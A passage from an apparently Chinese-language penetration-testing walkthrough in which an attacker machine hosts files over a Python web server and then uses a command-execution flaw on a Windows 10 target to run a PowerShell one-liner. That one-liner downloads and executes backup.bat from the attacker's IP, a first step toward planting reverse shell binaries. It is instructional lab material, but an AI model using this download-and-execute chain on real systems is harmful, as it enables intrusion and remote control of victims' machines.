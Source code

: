 7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

启动 Python web 服务器来存放我们的反向 shell 文件和 backup.bat。

```
python3 -m http.server 80 --directory /tmp
```

![](img/c5ea6abef1a9180a51308eb64832ad4a.png)

8.在 192.168.62.165 上执行(受害计算机，Windows 10 web shell)

使用“命令执行”漏洞下载并执行 backup.bat，然后下载我们的 Windows x86 反向外壳二进制文件(rev-x86.dll rev-x86.exe)

```
START /B powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('http://192.168.62.161:80/backup.bat','C:\Windows\Tasks\backup.bat');IEX 'c:\Windows\Tasks\backup.bat'
```

![](img/8a08988eb0b89ae2b6210e1ea2b7590d.png)

检查 python web 服务器:

![](img/a89c3beacae39bf99a791cf2fbfabd42.png)

# 执行二进制文件并建立反向 shell

既然我们已经将必要的文件复制到了目标机器上，我们可以尝试执行它们，并与我们的攻击机器建立一个反向 shell。我们将使用两种机制来使这个外壳更加稳定和具有交互性:

-rl wrap(sudo apt install rl wrap)
-while 循环

9.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。
